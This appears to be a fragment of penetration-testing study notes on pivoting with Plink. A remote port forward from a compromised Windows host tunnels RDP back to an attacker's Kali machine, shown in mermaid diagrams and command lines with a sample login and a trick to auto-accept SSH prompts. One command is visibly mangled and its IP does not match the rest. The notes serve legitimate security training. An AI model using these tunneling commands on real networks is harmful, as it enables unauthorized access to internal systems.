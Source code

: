 ```mermaid
		activate M
		M->>P: #10142; port 5432
		deactivate M
	end
```
### Plink

>[!info]- Info - Why Plink might be installed
>Admins may have removed OpenSSH but Plink, a command-line version of PuTTY, which preceded OpenSSH, may still be installed.

>[!warning]- Limitation - Plink doesn't support remote dynamic port forwarding

>[!info]- Info - Setup
>
>![Pasted image 20240517061210](Pasted%20image%2020240517061210.png)
#### Remote Port Forward

```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant M as MULTISERVER<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	critical Setup SSH remote dynamic port forward
		Note over M: plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE><br> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
		M-->>K: (ssh tunnel)<br> port 22 #8592;
		activate K
		K-->>M: (ssh tunnel)<br>port 9833 #10142; 3389
		deactivate K
	end
	critical RDP onto MULTISERVER03
		Note over K: xfreerdp /u:rdp_admin<br> /p:P@ssw0rd! /v:127.0.0.1:9833
		K->>M: (ssh tunnel) #10142; port 3389
	end
```

>[!code]- Setup a remote port forward<br>`plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4`
>- **-R** the socket we want to open on the Kali SSH server and the RDP server port on the loopback interface of MULTISERVER03 that we want to forward packets to
>- **-l** username and **-pw** password

>[!code]- Automatically accept any SSH prompt<br>`cmd.exe /c echo y | ..exe - ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7`
>In much the same way that it’s not possible to accept the SSH client key cache prompt from a non-TTY shell on Linux, with some very limited shells with Plink on Windows, we also won’t be able to respond to this prompt. An easy solution in that case would be to automate the confirmation with cmd.exe /c echo y, piped into the plink.exe command. This will emulate the confirmation that we usually type when prompted.
### Netsh
